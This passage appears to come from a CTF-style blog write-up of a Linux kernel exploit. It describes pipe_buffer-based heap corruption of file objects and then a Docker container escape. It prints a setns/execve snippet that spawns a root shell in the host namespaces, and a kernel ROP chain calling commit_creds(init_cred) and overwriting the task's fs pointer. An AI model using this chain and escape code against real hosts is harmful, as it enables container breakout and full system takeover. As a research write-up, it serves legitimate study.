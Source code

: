 I chose the file objects as my targets since I can get the heap address simply from it and it has the `f_op` as the control flow hijacking target. There is a tip when we are attacking objects using pipe_buffer AAR/AAW that we should not modify the unesscessary data (especially in a docker container enviroment). I spent so much time since I currupted the data and trigger a null pointer dereference killing the kernel (`eventpoll_release_file`). Using some kernel heap fengshui skills gaining control flow hijacking is not hard. However, I have no experience to escape from a dcoekr container.

# 🚀 Docker Escape

Getting the information from my labmates daily chat, I only heard that is not hard as long as people have control flow hijacking. So I search for some kernelCTF script and find there are some articles and exploitation scripts to do that. I first tried the method mentioned on [CVE-2021-22555](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html#kernel-rop-chain). 

- Kernel ROP to `switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)`
- setns in usermode to escape

```bash
  setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
  setns(open("/proc/1/ns/pid", O_RDONLY), 0);
  setns(open("/proc/1/ns/net", O_RDONLY), 0);

  char *args[] = {"/bin/bash", "-i", NULL};
  execve(args[0], args, NULL);
```

This method changes the namespaces for the task belonging to `pid=1` to `init_nsproxy` . It sounds but it didn’t work well for me. I read more recent exploits from kernelCTF repo for [CVE-2023-5345_lts_mitigation](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-5345_lts_mitigation/exploit/lts-6.1.52/exploit.c#L773). This exploit uses a similar method performing the similar options: getting the task for current pid’s task and replace it with `init_nsproxy` . But it performs the `switch` option manually instead of using `switch_task_namespaces` . It worked for me!

The rop chain I used is quite similar to the one from kernelCTF

```c
    // commit_creds(init_cred)
    ptr[index++] = rdi+1;
    ptr[index++] = rdi;
    ptr[index++] = init_cred;
    ptr[index++] = commit_creds;
    // mov [find_task_by_vpid(getpid())+1760], init_fs
    ptr[index++] = rdi;
    ptr[index++] = getpid();
    ptr[index++] = find_task_by_vpid;
    ptr[index++] = rcx;
    ptr[index++] = 1760; 
    ptr[index++] = add_rax_rcx_ret ; 
    ptr[index++] = rsi ; 
    ptr[index++] = init_fs ; 
    ptr[index++] = mov_qword_ptr_rax_rsi_ret;
    // land userspace
    ptr[index++] = swap_gs_iret;
    ptr[index++] = 0;
    ptr[index++] = 0;
    ptr[index++] = shellx;
    ptr[index++] = user_cs;
    ptr[index++] = user_rflags;
    ptr[index++] = user_sp|8;
    ptr[index++] = user_ss;
```
